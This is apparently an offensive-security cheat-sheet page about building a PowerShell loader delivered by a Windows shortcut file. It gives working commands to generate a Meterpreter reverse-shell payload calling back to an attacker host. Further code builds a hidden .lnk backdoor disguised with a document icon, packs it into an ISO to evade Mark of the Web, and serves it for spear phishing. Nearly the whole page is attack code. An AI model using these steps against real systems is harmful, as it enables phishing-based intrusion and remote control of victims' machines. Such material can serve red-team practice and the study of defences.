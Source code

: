 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - scenarios
  - windows
---
```

# PowerShell Loader via Shortcut LNK

```
$ msfvenom -p windows/x64/meterpreter/reverse_http[s] lhost=<IP> lport=80 -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | basenc -d --base64 > payload.ps1
```

Transfer the generated powershell reverse shell to the windows box to create `.lnk` shortcut and pack them into an ISO file

```powershell
PS C:\> $shortcutPath = "[<drive_letter>:]\path\to\directory\file.lnk"  
$WshShell = New-Object -ComObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut($shortcutPath)  
$Shortcut.TargetPath = 'conhost.exe'  
$Shortcut.Arguments = "--headless powershell.exe -noni -nop -ep bypass -file payload.ps1"  
$Shortcut.Description = "A shortcut backdoor"  
$Shortcut.IconLocation = 'C:\path\to\document.docx'  
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload  
$Shortcut.WindowStyle = 7  
$Shortcut.WorkingDirectory = "C:\Users\" + Eenv:USERNAME + "\Public"  
$Shortcut.Save()
```

Pack the files in a container.

```
$ packmypayload [--vhd-filesystem <fat | fat32 | ntfs>] --hide [<drive_letter>:]\path\to\directory\payload.ps1 --out-format iso C:\path\to\directory\ ISO_File.iso
```

Then copy the ISO File to your attacker machine and start a web server to simulate the spear phishing attack then finally you'll see **MOTW (Mark of the Web)** has not contaminated the `.lnk` shortcut file.

```
$ sudo python -m http.server [-d /path/to/directory/] 80
```

---
## References

### Mubix

- [Malicious.link: Blocking ISO mounting](https://room362.com/posts/2022/blocking-iso-mounting/)
